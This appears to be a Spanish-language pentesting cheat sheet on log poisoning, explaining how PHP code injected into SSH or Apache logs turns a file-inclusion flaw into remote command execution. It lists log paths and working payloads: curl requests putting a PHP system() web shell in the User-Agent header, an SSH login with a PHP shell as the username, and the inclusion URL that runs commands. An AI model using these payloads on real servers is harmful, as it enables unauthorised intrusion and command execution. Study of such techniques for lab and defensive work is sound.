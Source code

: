 -- - 
El Log Poisoning es una técnica de ataque en la que un atacante manipula los archivos de registro (logs) de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad LFI para lograr una ejecución remota de comandos en el servidor.

En el caso de los logs de SSH, el atacante puede inyectar código PHP en el campo de usuario durante el proceso de autenticación. Esto permite que el código se registre en el log ‘auth.log‘ de SSH y sea interpretado en el momento en el que el archivo de registro sea leído. De esta manera, el atacante puede lograr una ejecución remota de comandos en el servidor.

En el caso del archivo ‘access.log‘ de Apache, el atacante puede inyectar código PHP en el campo User-Agent de una solicitud HTTP. Este código malicioso se registra en el archivo de registro ‘access.log’ de Apache y se ejecuta cuando el archivo de registro es leído. De esta manera, el atacante también puede lograr una ejecución remota de comandos en el servidor.

Cabe destacar que en algunos sistemas, el archivo ‘auth.log‘ no es utilizado para registrar los eventos de autenticación de SSH. En su lugar, los eventos de autenticación pueden ser registrados en archivos de registro con diferentes nombres, como ‘btmp‘.

Por ejemplo, en sistemas basados en Debian y Ubuntu, los eventos de autenticación de SSH se registran en el archivo ‘auth.log’. Sin embargo, en sistemas basados en Red Hat y CentOS, los eventos de autenticación de SSH se registran en el archivo ‘btmp’. Aunque a veces pueden haber excepciones.


-- -
### IMPORTANTE
Hay que tener cuidado con esta tecnica ya que si escribimos mal los comando o ponemos mal las comillas podemos contaminar por completo el log y asi lo dejariamos de leer evitando que interprete nuestro codigo.

**Distintas rutas en las que se almacenan los logs:**
*/var/log/apache2/access.log* (Logs de apache)
*/var/log/btmp* (Logs de ssh)

**Payloads:**
```bash
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2 
```

Una vez inyectado el payload; ```curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"``` Se debe de llamar al parametro cmd asi:
```bash
localhost/?filename=/var/log/apache2/access.log&cmd=id
```
-- -

